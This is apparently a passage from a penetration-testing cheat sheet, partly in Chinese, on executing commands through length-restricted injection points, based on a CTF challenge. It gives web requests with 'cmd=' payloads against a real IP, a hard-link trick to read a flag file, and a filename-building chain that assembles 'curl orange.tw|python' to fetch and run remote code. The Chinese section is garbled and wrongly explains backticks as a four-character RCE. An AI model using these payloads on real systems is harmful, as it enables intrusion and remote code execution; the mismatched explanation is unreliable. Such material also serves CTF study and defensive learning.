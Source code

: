 ```bash
# Instead of writing scripts to a file, create an alphabetically ordered the command and execute it with "*"
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
## Execute tar command over a folder
http://52.199.204.34/?cmd=>tar
http://52.199.204.34/?cmd=>zcf
http://52.199.204.34/?cmd=>zzz
http://52.199.204.34/?cmd=*%20/h*

# Another curiosity if you can read files of the current folder
ln /f*
## If there is a file /flag.txt that will create a hard link
## to it in the current folder
```
### 4个字符的RCE

在某些情况下，我们可能会遇到只允许使用非交互式shell的限制。这种情况下，我们需要找到一种方法来绕过这个限制并执行我们的命令。下面是一种使用只有4个字符的远程代码执行（RCE）技巧。

#### 使用反引号

在Bash中，我们可以使用反引号（`）来执行命令并将其结果返回给我们。这个特性可以帮助我们绕过限制并执行我们的命令。

```bash
`<command>`
```

我们可以将任何命令放在反引号中，并将其结果分配给一个变量或直接使用它。

#### 示例

假设我们只能使用非交互式shell，并且我们想要执行`ls`命令来列出当前目录中的文件。我们可以使用反引号来绕过限制，如下所示：

```bash
`ls`
```

这将执行`ls`命令并返回结果。

#### 注意事项

- 反引号中的命令将在当前环境中执行，因此请谨慎使用。
- 请确保只执行受信任的命令，以防止潜在的安全风险。

使用这种方法时，请记住遵守法律和道德规范，并仅在合法授权的范围内使用。
```bash
# In a similar fashion to the previous bypass this one just need 4 chars to execute commands
# it will follow the same principle of creating the command `ls -t>g` in a file
# and then generate the full command in filenames
# generate "g> ht- sl" to file "v"
'>dir'
'>sl'
'>g\>'
'>ht-'
'*>v'

# reverse file "v" to file "x", content "ls -th >g"
'>rev'
'*v>x'

# generate "curl orange.tw|python;"
'>\;\\'
'>on\\'
'>th\\'
'>py\\'
'>\|\\'
'>tw\\'
'>e.\\'
```